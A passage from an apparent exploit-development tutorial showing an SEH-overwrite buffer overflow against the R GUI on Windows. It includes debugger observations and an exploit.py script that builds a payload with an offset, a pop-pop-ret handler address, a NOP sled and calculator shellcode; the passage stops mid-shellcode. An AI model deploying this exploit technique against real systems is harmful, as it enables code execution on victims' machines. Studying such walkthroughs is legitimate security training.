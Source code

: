 Executing `exploit.py` will create `payload.txt` with our payload, which when sent to the RGUI, will overflow the SEH record and overwrite it in the following way:

1. The next SEH record will contain the bytes `42 4F 4F 4D`, representing the string `BOOM`;
2. The current SEH handler will point to `0x637412c8` that contains `pop pop ret` instructions.

Below shows the `payload.txt` file contents:

![Payload.txt contents](<../../../.gitbook/assets/image (1008).png>)

Let's send that payload to the RGUI:

![Confirming we can subvert program's execution flow by overwriting SEH record](<../../../.gitbook/assets/overwriting-seh-record-1 (1).gif>)

Note from the above gif the key points:

* Once the program crashes with an exception and we continue running the program (F9), we hit our breakpoint at `0x637412c8` that contains the `pop pop ret` instructions;
* Once `pop pop` instructions are executed, `ret` instruction pops off the top topmost value`0141E768` from the stack, which is the SEH record we control, and jumps to it;
* Once execution jumps to `0141E768`, we see that first four instructions are actually are the bytes `42 4f 4f 4d` that represent our string `BOOM`, which means that at this point we have subverted the code execution flow and can start thinking about executing our shellcode.

### Adding Shellcode

We're now ready to start suplementing our payload with shellcode. Our payload should now look like this:

![](<../../../.gitbook/assets/image (1022).png>)

Let's modify our exploit skeleton to include some shellcode that pops a calculator:

{% code title="exploit.py" %}
```python
f = open("payload.txt", "wb")

# Offset into the first SEH record
payload = b"A" * 1012

# Address of the next SEH record
payload += b"BOOM"
# payload += b"\xeb\x0B\x90\x90"

# Current SEH handler (pop pop ret)
payload += b"\xc8\x12\x94\x63"

# NOP sled for reliability
payload += b"\x90"*10

# shellcode
buf = b""
buf += b"\xba\xbf\xaf\x65\x1b\xd9\xc4\xd9\x74\x24\xf4\x5d\x31"
buf += b"\xc9\xb1\x31\x31\x55\x13\x83\xed\xfc\x03\x55\xb0\x4d"
buf += b"\x90\xe7\x26\x13\x5b\x18\xb6\x74\xd5\xfd\x87\xb4\x81"
buf += b"\x76\xb7\x04\xc1\xdb\x3b\xee\x87\xcf\xc8\x82\x0f\xff"
buf += b"\x79\x28\x76\xce\x7a\x01\x4a\x51\xf8\x58\x9f\xb1\xc1"
buf += b"\x92\xd2\xb0\x06\xce\x1f\xe0\xdf\x84\xb2\x15\x54\xd0"
buf += b"\x0e\x9d\x26\xf4\x16\x42\xfe\xf7\x37\xd5\x75\xae\x97"
buf += b"\xd7\x5a\xda\x91\xcf\xbf\xe7\x68\x7b\x0b\x93\x6a\xad"
buf += b"\x42\x5c\xc0\x90\x6b\xaf\x18\xd4\x4b\x50\x6f\x2c\xa8"
buf += b"\xed\x68\xeb\xd3\x29\xfc\xe8\x73\xb9\xa6\xd4\x82\x6e"
buf += b"\x30\x9e\x88\xdb\x36\xf8\x8c\xda\x9b\x72\xa8\x57\x1a"
buf += b"\x55\x39\x23\x39\x71\x62\xf7\x20\x20\xce\x56\x5c\x32"
buf += b"\xb1\x07\xf8\x38\x5f\x53\x71\x63\x35\xa2\x07\x19\x7b"
buf += b"\xa4\x17\x22\x2b\xcd\x26\xa9\xa4\x8a\xb6\x78\x81\x65"
buf += b"\xfd\x21\xa3\xed\x58\xb0\xf6\x73\x5b\x6e\x34\x8a\xd8"
```